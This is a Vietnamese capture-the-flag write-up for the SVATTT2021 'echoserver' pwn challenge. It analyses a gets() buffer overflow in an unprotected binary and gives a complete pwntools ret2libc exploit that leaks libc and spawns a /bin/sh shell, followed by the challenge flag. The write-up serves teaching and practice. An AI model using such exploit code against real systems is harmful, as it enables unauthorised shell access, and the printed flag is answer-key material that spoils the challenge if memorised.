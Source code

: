 # Echo

## REVERSE FILE
Xem thông số của file:
```sh
echoserver_2aa0a5dae5b5c2954ea6917acd01f49b: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, stripped
```
checksec file:
```sh
[*] '/mnt/c/Users/n18dc/OneDrive/Desktop/SVATTT2021/Vòng Khởi động/echoserver_2aa0a5dae5b5c2954ea6917acd01f49b'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
Các cơ chế bảo mật thì hầu như không sử dụng.
Dùng IDA để xem pseudo code của chương trình
```sh
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[128]; // [rsp+0h] [rbp-80h] BYREF

  signal(14, handler);
  alarm(0x14u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  do
  {
    gets(s);
    puts(s);
  }
  while ( !strstr(s, "QUIT") );
  return 0LL;
}
```
Chương trình lặp đến khi chuỗi nhập vào có chứa chuối con "QUIT"
Dùng hàm gets(s) --> buffer overflow


## EXPLOIT

Dùng Ret2Libc để giải bài này. 
* leak libc, nhảy về main.
* ret về system("/bin/sh")

Địa chỉ hàm main được lấy từ IDA.
```sh
MAIN = 0x0000000004011AE             
```

File exploit
```sh
from pwn import *
# s = remote("125.235.240.166",20101)
s = process("./echoserver_2aa0a5dae5b5c2954ea6917acd01f49b")
elf = ELF("./echoserver_2aa0a5dae5b5c2954ea6917acd01f49b")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc6_2.31-0ubuntu9_amd64.so")
pause()
RET = 0x0000000000401016
POPRDI = 0x00000000004012cb
GOT_PUTS = 0x404018
PLT_PUTS = 0x401030
STRSTR = 0x401241
GOT_GETS = 0x404030
PLT_GETS = 0x401060
MAIN = 0x4011AE
payload = "a"*0x88
payload += p64(POPRDI)
payload += p64(GOT_PUTS)
payload += p64(PLT_PUTS)
payload += p64(MAIN)

# payload = "AA" + p64(GOT_PUTS)

s.sendline(payload)
s.sendline("QUIT")
s.recvuntil("QUIT\n")

leak = u64(s.recv(6)+"\x00\x00")
libc.address = leak - libc.symbols['puts']
print ">>" + hex(leak)
print "libc " + hex(libc.address)

system = libc.symbols['system']
binsh = next(libc.search("/bin/sh"))

payload2 = "a"*0x88 + p64(POPRDI) + p64(binsh) + p64(RET) + p64(system)
s.sendline(payload2)
s.sendline("QUIT")
s.interactive()
#ASCIS{old_school_challenge}
```